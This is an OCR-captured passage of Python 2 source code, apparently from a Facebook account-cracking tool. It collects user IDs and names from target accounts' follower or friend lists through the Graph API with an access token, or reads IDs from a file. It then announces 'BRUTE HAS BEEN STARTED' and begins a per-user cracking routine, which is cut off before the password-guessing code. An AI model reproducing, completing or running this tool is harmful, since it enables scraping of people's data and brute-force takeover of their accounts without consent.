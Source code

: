 					id.append(uid+"|"+na)
			except KeyError:
				print("\033[91;1m  PRIVATE FRIEND LIST TRY ANOTHER ONE")
			print("\033[94;1m  TOTAL IDS  : \033[0;92m%s\033[0;97m"%(len(id)))
		time.sleep(3)
	elif select =="2":
		os.system("clear")
		logo()
		print("")
		print("      \033[92;1mMULTI FOLLOWERS ID COINING ")
		print("")
		try:
			id_limit = int(raw_input("\033[93;1m  ENTER LIMIT (\033[91;1m5 MAX\033[93;1m): \033[92;1m"))
			print("")
		except:id_limit=1
		for t in range(id_limit):
			t +=1
			idt = raw_input("\033[93;1m  INPUT FOLLOWER ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))
			try:
				for i in requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999").json()["data"]:
					uid = i["id"].encode('utf-8')
					na = i["name"].encode('utf-8')
					id.append(uid+"|"+na)
			except KeyError:
				print("\033[91;1m  PRIVATE FRIEND LIST TRY ANOTHER ONE")
			print("\033[94;1m  TOTAL IDS  : \033[0;92m%s\033[0;97m"%(len(id)))
		time.sleep(3)
	elif select =="3":
		os.system("clear")
		logo()
		print("")
		print("\t\033[93;1m   AUTO PASS CRACKING")
		print("")
		filelist = raw_input('\033[92;1m  INPUT FILE: ')
		try:
			for line in open(filelist, 'r').readlines():
				id.append(line.strip())
				
		except IOError:
			print("\t\033[91;1m  REQUESTED FILE NOT FOUND")
			print("")
			raw_input("\033[93;1m PRESS ENTER TO BACK")
			crack1()
			
	elif select =="0":
	    menu()
	else:
		print("")
		print("\t\033[91;1m  SELECT VALID OPTION")
		print("")
		crack_select1()
	os.system("clear")
	logo()
	print("")
	print("\033[93;1m  TOTAL IDS : \033[92;1m"+str(len(id)))
	print("\033[92;1m  BRUTE HAS BEEN STARTED\x1b[0m")
	print("\033[94;1m  WAIT AND SEE \033[92;1m✘\033[91;1m✘\x1b[0m")
	linex()
	def main(arg):
		user=arg
		uid,name=user.split("|")